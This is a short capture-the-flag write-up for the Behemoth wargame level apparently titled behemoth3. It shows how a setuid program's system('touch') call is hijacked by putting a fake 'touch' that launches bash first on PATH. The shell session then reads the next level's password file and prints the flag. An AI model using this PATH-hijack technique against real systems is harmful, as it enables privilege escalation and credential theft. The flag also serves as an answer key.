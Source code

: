 ```yaml
---
layout: default
title: behemoth3
---
```




In this challenge, we can see the code call this line in C: `system("touch $pid")`, so, we'll override the `touch` by manipulating the $PATH environment variable.

```
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ echo "/bin/bash" > touch
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ export PATH=$(pwd):$PATH
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ chmod +x touch
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ chmod +x .
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ /behemoth/behemoth2
behemoth3@gibson:/tmp/tmp.SzpOLaiNNy$ cat /etc/behemoth_pass/behemoth3
JQ6tZGqt0i
```



**Flag:** ***`JQ6tZGqt0i`*** 

